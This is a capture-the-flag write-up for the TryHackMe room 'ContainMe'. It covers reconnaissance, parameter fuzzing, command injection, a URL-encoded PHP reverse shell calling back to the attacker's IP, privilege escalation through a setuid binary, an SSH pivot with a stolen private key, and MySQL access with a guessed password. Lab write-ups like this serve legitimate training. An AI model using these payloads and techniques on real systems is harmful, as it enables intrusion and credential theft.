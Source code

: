 # [ContainMe (TryHackMe)](https://tryhackme.com/room/containme1) 
Creator: [ITSecHack](https://tryhackme.com/p/ITSecHack)

First, let's scan this thing: 

<code>rustscan -a 10.10.163.146</code>

![PIC_RUST](https://user-images.githubusercontent.com/93183445/141817607-4bf1e9a5-bb79-4117-9c40-a9a2a173efb0.png)

After that, just to be sure, nmap follows: 

<code>nmap -sV -sC -p22,80,2222,8022 10.10.163.146</code>

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/141818585-cd585f86-3984-4137-a29e-c19ffebfc1a3.png)

Let's go after some directories (I added the "-t5" option at the end, because I got a lot of errors): 

<code>feroxbuster --url http://10.10.163.146 -w /usr/share/wordlists/dirb/common.txt -t 5</code>

![PIC_FEROX](https://user-images.githubusercontent.com/93183445/141819090-47390871-02a1-47e9-87e5-7a678fe70824.png)

The index.php shows a directory listing. Let's look at the source.

![PIC_INDEX_1](https://user-images.githubusercontent.com/93183445/141818220-71e224fc-9695-4f2c-bc05-f4efb6375f05.png)

Looks like we're going to search for the path. At this point I try to keep in mind that this 
box is marked as "easy"... Let's go for it!!

Tried a few things, but didn't find anything with directory bruteforcing. Maybe it is a parameter?

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt</code>

This command spat out an incredible amount of responses. All with status 200. But they all had the same response
size. Let's filter that out and see what happens:

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt -fs 329</code>

The outcome was:\
<code>path                    [Status: 200, Size: 79, Words: 9, Lines: 11]</code>

So we found the path.
As we could view the directory listing earlier and this is a box marked as easy, I tried simple rce
like id, whoami and so on. Nothing seemed to work.
The only thing that gave something back, was `ls` and `pwd`
(with backticks). So just the directory listing is enabled, it seems.\
So why not try "/"? Bingo..\
I'm able to see the directory listing of "/".\
With this opportunity given, I wanted to take a look in the home directory.\
So I found mike.

![PIC_MIKE](https://user-images.githubusercontent.com/93183445/141819141-6e26bff1-fa75-4ce1-9dd8-cb29e4da2a47.png)

But mike wasn't of great use, since I couldn't read or list the content of ".ssh/".

Still reminding me that this is a box marked as "easy", I tried command injection. With success:

![PIC_WHOAMI](https://user-images.githubusercontent.com/93183445/141819181-05119d8a-1653-4fed-bb16-85babe95f8df.png)

It took me a few tries just to end up using php and url-encoding after I wasn't able to netcat or wget anything.\
(Should have noticed earlier, because there's a lot of php going on..)\
Again, https://www.revshells.com to the rescue :)

<code>php -r '$sock=fsockopen("MY-IP",9001);exec("sh <&3 >&3 2>&3");'</code>\
Urlencoded we get:\
<code>php%20-r%20%27%24sock%3Dfsockopen%28%22MY-IP%22%2C9001%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27</code>

Add this to the URL in the browser after starting a listener, and we get a callback :)

![PIC_CALLBACK](https://user-images.githubusercontent.com/93183445/141820541-5533b0a1-1f27-4561-9500-106cb802d846.png)

Stabilize the shell with python3:\
<code>python3 -c 'import pty;pty.spawn("/bin/bash")'</code>

Then check mike's home directory (remember the .ssh/ folder from before).\
But we get a "Permission denied". We're still www-data. But there's a binary file we are allowed to execute.\
Let's do that. Nothing happens. Except the fancy output telling us "CRYPTSHELL"..\
Again, trying to keep in mind this being a simple box, I append "mike" for the execution of the binary.\
This time, it took a few seconds to respond, so there's clearly something going on..\
Time for a search after files we are able to execute:

![PIC_CRYPT_1](https://user-images.githubusercontent.com/93183445/141819398-ead3d135-c25a-4df7-a6a2-c852c9080f5d.png)

Looks like we found something interesting..

![PIC_CRYPT_2](https://user-images.githubusercontent.com/93183445/141819430-cf877c52-1037-4575-8211-482a5e729231.png)

Trying the same again with this binary, things take an interesting turn:

![PIC_CRYPT_3](https://user-images.githubusercontent.com/93183445/141819452-30f55aaa-1464-4f43-90d6-d4c042520acd.png)

Welcome to the root-fest :).\
But no luck, the root directory is pretty much empty..\
The hostname is "host1", so maybe there's a number2?

The following just didn't work somehow..

<code>for i in {1..254} ;do (ping -c 1 172.16.20.$i | grep "bytes from" &) ;done</code>

I mean to some degree, because before it went on telling me
that "Destination Host Unreachable", I saw that 172.16.20.6 was up.\
So I had to stop the loop and reconnect.\
Note to self: *Better use the static nmap next time..* 

Then, the first thing I tried was to connect with the id_rsa from mikes home directory to the newly
found host (still kept in mind this is an easy box..):

<code>ssh -i /home/mike/.ssh/id_rsa mike@172.16.20.6</code>

Aaaaand we're in :)

![PIC_HOST_2](https://user-images.githubusercontent.com/93183445/141819577-4c41309d-254b-49ec-9976-188f752d0148.png)

After searching around a bit, I got to the services. And there it was: port 3306

![PIC_NETSTAT](https://user-images.githubusercontent.com/93183445/141819600-9a0629dd-87ad-463b-bcd1-ac2c7f00ca93.png)

Taking a look at /etc/passwd revealed that there's no other user than mike. So let's get into the database.
It has to be good for something at least..

I tried to login a few times keeping the passwords rather simple. Then I succeeded with:

<code>mysql -umike -ppassword</code> 

Working my way towards the contents of the database gave me the things I needed in the end :) 

![PIC_DATABASE_2](https://user-images.githubusercontent.com/93183445/141819643-05927619-7c95-4e58-ba0a-388538059103.png)

Or at least, I thought so.. (sigh). Still no root flag. 
BUT: 

![PIC_ROOT](https://user-images.githubusercontent.com/93183445/141819661-c219d315-0011-4f31-a6bf-b00a5fff87cc.png)

**Thanks :)**
